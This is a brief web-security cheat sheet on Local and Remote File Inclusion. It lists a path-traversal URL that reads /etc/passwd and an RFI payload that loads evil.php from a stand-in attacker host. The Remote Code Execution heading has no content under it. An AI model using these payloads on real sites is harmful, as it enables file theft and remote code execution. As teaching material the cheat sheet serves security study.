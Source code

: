 
## Local File Inclusion (LFI)

1. Path Traversal:

`http://victim.com/view.php?file=../../../../etc/passwd`

2. Remote Code Execution

---

## Remote File Inclusion (RFI)

- Include a remote file in the current web application and execute its contents
- Payload:

`http://victim.com?file=http://attacker-site.com/evil.php`
